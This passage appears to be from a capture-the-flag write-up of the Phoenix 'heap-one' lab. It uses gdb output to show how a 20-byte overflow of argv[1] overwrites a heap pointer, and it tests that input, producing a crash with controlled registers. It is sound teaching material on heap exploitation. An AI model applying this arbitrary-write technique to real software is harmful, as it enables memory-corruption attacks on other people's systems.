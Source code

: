 Lets check our values,

```c
(gdb) print $ebp-0xc
$1 = (void *) 0xffffd6fc

(gdb) x/xw 0xffffd6fc
0xffffd6fc:	0xf7e69008
```

Values for ```i1``` is at ```0xf7e69008```,

```c
(gdb) x/20x 0xf7e69008
0xf7e69008:	0x00000001	0xf7e69018	0x00000000	0x00000011
0xf7e69018:	0x41414141	0x42424242	0x00000000	0x00000011
0xf7e69028:	0x00000002	0xf7e69038	0x00000000	0x00000011
0xf7e69038:	0x43434343	0x44444444	0x00000000	0x000fffc1
0xf7e69048:	0x00000000	0x00000000	0x00000000	0x00000000
```

Here are our values in heap

The values of ```priority``` (1,2) and ```name``` (argv[1],argv[2]) are stored here

```c
v1->priority -----          ----- address for i1->name to write
                 ↓          ↓
0xf7e69008:	0x00000001	0xf7e69018	0x00000000	0x00000011
0xf7e69018:	0x41414141	0x42424242	0x00000000	0x00000011
                ↑
                ----- v1->name data

v2->priority -----          ----- address for i2->name to write
                 ↓          ↓
0xf7e69028:	0x00000002	0xf7e69038	0x00000000	0x00000011
0xf7e69038:	0x43434343	0x44444444	0x00000000	0x000fffc1
                ↑
                ----- v2->name data

```

While entering input, we cannot overwrite ```0xf7e69018```,

But we can overwrite ```0xf7e69038``` with our input

We need ```20 bytes``` to reach the place of ```0xf7e69038```

If we place some address after 20 bytes, we can write our own value into the address from our ```argv[2]``` input data

Lets try our exploit,

```c
(gdb) r $(python -c "print('A'*20+'BBBB')") CCCCDDDD
Starting program: /home/user/heap-one $(python -c "print('A'*20+'BBBB')") CCCCDDDD

Program received signal SIGSEGV, Segmentation fault.
0xf7f840db in stpcpy () from /opt/phoenix/i486-linux-musl/lib/ld-musl-i386.so.1
[ Legend: Modified register | Code | Heap | Stack | String ]
───────────────────────────────────────────────────────────────────────────────────── registers ────
$eax   : 0x42424242 ("BBBB"?)
$ebx   : 0xf7ffb000  →  0x0008dedc
$ecx   : 0x43
$edx   : 0xffffd8db  →  "CCCCDDDD"
$esp   : 0xffffd6a4  →  0xf7ffb000  →  0x0008dedc
$ebp   : 0xffffd6f8  →  0xffffd794  →  0xffffd8e4  →  "LS_COLORS=rs=0:di=01;34:ln=01;36:mh=00:pi=40;33:so[...]"
$esi   : 0x42424242 ("BBBB"?)
```